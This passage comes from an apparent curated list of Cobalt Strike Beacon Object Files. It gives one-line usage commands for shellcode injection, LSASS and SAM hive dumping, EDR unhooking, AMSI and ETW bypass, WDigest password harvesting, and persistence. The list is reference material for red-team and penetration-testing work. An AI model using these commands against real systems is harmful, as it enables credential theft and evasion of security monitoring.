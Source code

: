static_syscalls_apc_spawn <listener> / static_syscalls_apc_spawn <path_to_bin> --> Spawn and static syscalls shellcode njection (NtQueueApcThread)
static_syscalls_inject <PID> <listener_name> / static_syscalls_shinject <PID> <path_to_bin> --> Static syscalls shellcode injection (NtCreateThreadEx)
static_syscalls_dump <PID> [path_to_output] --> Process dump with syscalls (i.e. Dump LSASS!)
```

- [Threadless Inject BOF](https://github.com/iilegacyyii/ThreadlessInject-BOF)
This process injection BOF has to be used by remotely hooking a function and specify which DLL/function you want to target for injecting shellcode into. <br />
```
threadless-inject <pid> <dll> <export function> <shellcode path>
threadless-inject 1234 ntdll.dll NtOpenFile shellcode.bin --> Inject into existing process
```
  
- [**MiniDumpWriteDump**](https://github.com/rookuu/BOFs)<br />
Uses static syscalls to dump a process such as LSASS to output file<br />
```minidumpwritedump <PID> <path_of_dmp?>```

- [**SilentLsassDump**](https://github.com/josephkingstone/BOFs-2/)<br />
Uses direct syscalls generated from [https://github.com/outflanknl/InlineWhispers](InlineWhispers)<br />
Dump the LSASS process via the silent process exit mechanism into the C:\Temp directory<br />
```silentLsassDump <LSASS PID>```

- [**RegSave BOF**](https://github.com/EncodeGroup/BOF-RegSave)<br />
BOF to dump SAM, SYSTEM, and SECURITY database from a local system. <br />
```
bof-regsave c:\temp\ --> Dumps SAM database files to target folder C:\temp\
```

- [**Unhook BOF**](https://github.com/rsmudge/unhook-bof)<br />
Created by Raphael Mudge, this BOF will attempt to unhook userland APIs to bypass EDR<br />
Sort of the "hail mary" for attempting to unhook APIs<br />
 ```unhook```

- [**WdToggle**](https://github.com/outflanknl/WdToggle)<br />
Enables WDigest credential caching using direct system calls<br />
Bypasses Windows Credential Guard if enabled<br />
```
inline-execute WdToggle.o --> First enable WdDigest caching
logonpasswords --> Second, wait for users to login and then run Mimikatz to dump their newly cached cleartext passwords
```

- [**TrustedSec CS-Remote-OPs-BOF**](https://github.com/trustedsec/CS-Remote-OPs-BOF)<br />
Great repo of new BOFs from TrustedSec to follow up their SituationalAwareness BOFs.<br />
Includes dumping a process, decrypting Chrome keys, persistence techniques (registry, scheduled tasks, services), and more!
```
adcs_request --> Request an enrollment certificate
procdump --> Dump specified process to output file
reg_set --> Set/create a registry key
sc_create --> Create a new service
schtaskscreate --> Create a new scheduled task
setuserpass --> Set a users password
```

- [**Inject AMSI Bypass**](https://github.com/boku7/injectAmsiBypass)<br />
BOF that bypasses AMSI in a remote process with code injection<br />
```inject-amsiBypass <PID>```

- [**Inject ETW Bypass**](https://github.com/boku7/injectEtwBypass)<br />
Inject ETW Bypass into Remote Process via Syscalls<br />
```injectEtwBypass <PID>```

```